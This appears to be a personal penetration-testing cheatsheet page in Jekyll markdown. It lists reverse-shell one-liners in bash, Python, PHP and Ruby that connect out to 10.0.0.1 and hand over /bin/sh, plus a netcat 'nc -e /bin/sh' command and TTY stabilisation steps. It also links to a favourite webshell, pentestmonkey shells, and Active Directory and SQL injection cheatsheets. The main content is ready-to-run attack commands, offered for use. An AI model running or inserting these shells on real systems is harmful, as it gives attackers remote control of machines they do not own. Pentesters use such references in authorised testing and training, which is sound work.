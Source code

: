 ```yaml
---
layout: single
author_profile: true
permalink: /notes/
toc: true
title: Notes and Cheatsheets
toc_label: "Contents"
toc_icon: "fab fa-fw fa-th-list"
---
```


## Intro

This is a collection of commands and cheatsheets that I use on a regular basis, the original locations as to where these commands came from will be linked along side the commands. Again, these are not my creations, this is just a note of tools and commands that I have frequently used and that I think are useful. 

## Shells
### Reverse Shells

{% highlight bash %}
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}

{% highlight python %}
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

{% highlight php %}
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}

{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}

[PHP Reverse Shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

[Perl Reverse Shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

Credits for all of these shells goes to [pentestmonkey](http://pentestmonkey.net/)

### Web Shells

[p0wny@shell:~#](https://github.com/flozz/p0wny-shell) - My absolute favorite webshell

{% highlight php %}

{% endhighlight %}

### Interactive TTY Spawning

{% highlight bash linenos %}
nc -e /bin/sh 10.10.10.10 9001
{% endhighlight %}

{% highlight python linenos %}
python -c 'import pty; pty.spawn("/bin/bash")'
{% endhighlight %}

`Ctrl + Z`

{% highlight bash linenos %}
stty raw -echo && fg && reset
{% endhighlight %}

{% highlight bash linenos %}
export SHELL=bash
export TERM=tmux
stty rows 48 columns 127
{% endhighlight %}

## AD 

This [GitHub Page](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet) by [S1ckB0y1337](https://github.com/S1ckB0y1337) is fantastic.

## SQLi

[MySQL Injection Cheatsheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet) - [pentestmonkey](http://pentestmonkey.net/)

[PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) - [PortSwigger](https://portswigger.net/)

[w3schools SQLi Explanation](https://www.w3schools.com/sql/sql_injection.asp)



